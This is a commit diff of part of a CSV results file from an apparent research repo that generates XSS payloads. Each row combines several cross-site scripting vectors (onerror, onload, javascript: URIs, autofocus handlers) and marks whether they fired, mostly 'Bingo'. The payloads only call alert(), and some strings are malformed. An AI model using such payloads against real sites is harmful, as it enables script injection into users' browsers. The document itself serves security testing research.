

Before and after one commit to selimaynigul/llm-injection-generator, a CSV file: result/gan_result_vec_chrome.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

```diff
--- a/result/gan_result_vec_chrome.csv
+++ b/result/gan_result_vec_chrome.csv
@@ -43 +43,15 @@ body_tag,"<form action='javascript:alert(""XSS10"")'><form action='javascript:al
 body_tag,"<div onmouseover='alert(""XSS7"")'><img src=x onerror=alert('XSS2')><iframe src='javascript:alert(""XSS6"");'>","<svg onload=alert('XSS3')><img src=x onerror=alert('XSS2')><a href='javascript:alert(""XSS5"");'>","<a href='javascript:alert(""XSS5"");'><img src=x onerror=alert('XSS2')><img src=x onerror=alert('XSS2')>",Bingo
+body_tag,"<div style=""width:100px;height:100px;"" onmouseover=alert('XSS5')></object><svg onload=alert('XSS3')>","<img src=x onerror=alert('XSS2')><input type='text' value='XSS6' onfocus='alert(this.value)'><iframe src=""javascript:alert('XSS8');"">","<body onload=alert('XSS4')><object data=""javascript:alert('XSS10');""><img src=x onerror=alert('XSS2')>",Bingo
+body_tag,"<body onload=alert('XSS4')><a href=""javascript:alert('XSS7');""><input type=""text"" value="""" onfocus=alert('XSS6')>","<div style=""width:100px;height:100px;"" onmouseover=alert('XSS5')>javascript:alertcode=""","<body onload=alert('XSS4')><object data=""javascript:alert('XSS10');""><img src=x onerror=alert('XSS2')>",Bingo
+body_tag,"<body onload=alert('XSS4')><body onload='alert(""XSS4"")'><a href=""javascript:alert('XSS7');"">","<img src=x onerror=alert('XSS2')><input type='text' value='XSS6' onfocus='alert(this.value)'><iframe src=""javascript:alert('XSS8');"">","<svg onload=alert('XSS3')>code=""<object data=""javascript:alert('XSS10');"">",Bingo
+body_tag,"<a href=""javascript:alert('XSS7');""><div onmouseover='alert(""XSS3"")'></object>","<a href=""javascript:alert('XSS7');""><div onmouseover='alert(""XSS3"")'></object>","<a href=""javascript:alert('XSS7');""><div onmouseover='alert(""XSS3"")'></object>",Failure
+body_tag,"<div style=""width:100px;height:100px;"" onmouseover=alert('XSS5')></object><body onload=alert('XSS4')>","<a href=""javascript:alert('XSS7');""><div onmouseover='alert(""XSS3"")'></object>","<body onload=alert('XSS4')><object data=""javascript:alert('XSS10');""><img src=x onerror=alert('XSS2')>",Bingo
+body_tag,"code=""<embed src='data:text/html,<script>code=""","<body onload='alert(""XSS4"")'><embed src='data:text/html,<script>code=""","<object data=""javascript:alert('XSS10');""><object data='javascript:alert(""XSS8"");'>code=""",Bingo
+body_tag,"<input type='text' value='XSS6' onfocus='alert(this.value)'><object data='javascript:alert(""XSS8"");'><svg onload='alert(""XSS7"")'>","<a href='javascript:alert(""XSS8"")'><iframe src='javascript:alert(1);'><body onload='alert(""XSS4"")'>","<div onmouseover='alert(""XSS3"")'><svg onload='alert(""XSS5"")'><input type='text' value='' onfocus='alert(""XSS4"")' autofocus>",Bingo
+body_tag,"<div onmouseover='alert(""XSS3"")'><a href='javascript:alert(""XSS8"")'><iframe src='javascript:alert(""XSS5"");'>","code=""<svg onload='alert(""XSS5"")'><embed src='data:text/html,<script>","<body onload='alert(""XSS4"")'><embed src='data:text/html,<script>code=""",Bingo
+body_tag,"<input type='text' value='XSS6' onfocus='alert(this.value)'><embed src='javascript:alert(""XSS9"");'><body onload='alert(""XSS4"")'>","<body onload='alert(""XSS4"")'><embed src='data:text/html,<script>code=""","<iframe src='javascript:alert(""XSS5"");'><object data='javascript:alert(1);'><svg onload='alert(""XSS7"")'>",Bingo
+body_tag,"code=""<iframe src='javascript:alert(""XSS5"");'><body onload='alert(""XSS4"")'>","</object><form action='javascript:alert(""XSS9"")'><input type='text' value='' onfocus='alert(""XSS4"")' autofocus>","<a href=""javascript:alert('XSS7');""><div onmouseover='alert(""XSS3"")'><iframe src=""javascript:alert('XSS8');"">",Bingo
+body_tag,"<svg onload='alert(""XSS5"")'><embed src='javascript:alert(1);'><div style='behavior:url(#default#time2);' onbegin='alert(""XSS7"")'>","<embed src='data:text/html,<script>onclick=<svg onload='alert(1)'>","<object data='javascript:alert(""XSS8"");'><embed src='javascript:alert(1);'><div style='behavior:url(#default#time2);' onbegin='alert(""XSS7"")'>",Bingo
+body_tag,"<embed src='javascript:alert(""XSS9"");'><svg onload='alert(""XSS5"")'/><img dynsrc='javascript:alert(""XSS10"");'>",<input type='text' value='XSS6' onfocus='alert(this.value)'>onfocus=<iframe src='javascript:alert(1);'>,"<iframe src='javascript:alert(1);'><div onclick='alert(1);'><object data='javascript:alert(""XSS8"");'>",Bingo
+body_tag,"<embed src='javascript:alert(""XSS9"");'><embed src='javascript:alert(1);'><svg onload='alert(""XSS5"")'>","<iframe src='javascript:alert(1);'><div onclick='alert(1);'><object data='javascript:alert(""XSS8"");'>","<input type='text' value='' onfocus='alert(""XSS4"")' autofocus><svg onload='alert(""XSS6"")'><iframe src='javascript:alert(1);'>",Bingo
+body_tag,"<object data='javascript:alert(""XSS8"");'><embed src='javascript:alert(1);'><svg onload='alert(""XSS5"")'>","<input type='text' value='' onfocus='alert(""XSS4"")' autofocus><svg onload='alert(""XSS6"")'><iframe src='javascript:alert(1);'>","<object data='javascript:alert(""XSS8"");'><embed src='javascript:alert(1);'><div style='behavior:url(#default#time2);' onbegin='alert(""XSS7"")'>",Bingo
```
Also changed, not shown: result/ga_result_llm.csv, result/gan_result_chrome.csv, 28 other files.
